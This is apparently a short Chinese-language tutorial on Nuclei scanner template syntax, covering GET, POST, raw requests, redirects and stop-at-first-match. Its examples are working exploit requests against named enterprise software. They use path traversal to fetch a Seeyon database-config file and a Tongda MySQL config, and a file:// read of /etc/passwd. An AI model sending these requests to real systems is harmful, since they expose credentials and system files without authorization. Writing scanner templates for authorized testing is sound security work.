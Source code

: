 
### 请求

#### Get

```yaml
requests:
  - method: GET
    path:
      - "{{BaseURL}}/seeyon/webmail.do?method=doDownloadAtt&filename=index.jsp&filePath=../conf/datasourceCtp.properties"
```

#### POST

```yaml
requests:
  - method: POST
    path:
      - "{{BaseURL}}/sys/ui/extend/varkind/custom.jsp"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: 'var={"body":{"file":"file:///etc/passwd"}}'
```

#### RAW

```yaml
requests:
  - raw:
      - |
        POST /ispirit/interface/gateway.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        json={"url":"/general/../../mysql5/my.ini"}
```

#### 跳转

```yaml
  - method: GET
    path:
      - "{{BaseURL}}"
    redirects: true
    max-redirects: 2
```

#### stop-at-first-match

Same support as we have via flag using -stop-at-first-match flag, will be helpful for the case where we have multiple possible paths for same file, in cases where we found matches at the start, we can avoid making additional requests.

大意就是一个模板里有多个扫描路径,当第一个命中时,自动停止后面几个路径的扫描,当然这个不会影响其他模板.
